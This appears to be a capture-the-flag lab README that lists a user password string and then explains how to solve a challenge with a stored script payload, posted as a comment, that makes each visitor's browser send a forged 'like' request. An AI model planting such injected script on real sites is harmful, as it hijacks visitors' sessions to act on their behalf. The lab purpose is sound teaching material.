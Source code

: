 # Пароли пользователей
1qazxsw23edcvfr45tgbnhy6

## 1.3 How to break it

- Register 5 users.
- Using one user, leave a comment like that under a post:
```html
<script>
    var xhr = new XMLHttpRequest();
    xhr.open("POST", "/like/1", true);
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr.send("value=1");
</script>
```
- Auth with each user and visit the post.
- See CSRF_FLAG_MASTER flag after it on a post page.
